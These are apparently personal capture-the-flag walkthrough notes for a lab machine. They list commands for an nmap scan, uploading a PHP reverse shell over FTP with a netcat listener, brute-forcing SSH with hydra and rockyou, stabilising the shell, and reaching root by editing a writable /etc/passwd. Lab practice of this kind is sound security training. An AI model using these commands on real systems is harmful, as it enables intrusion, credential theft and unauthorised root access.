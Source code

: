 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

# Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv
ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir
cd webalizer

put getin.php

bye

- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php
hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62

login: jack   password: qwertyuiop

goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:
	python2 -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	press CTRL + Z
	stty raw -echo;fg
- open new terminal: run another remote command
boom! get the jack shell

or

ssh jack@10.10.233.62 

run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify

ls  -al  /etc/passwd

or

sudo -l

generate encryted password: openssl passwd [your password]

nano  /etc/passwd - paste the passwd on x

su root

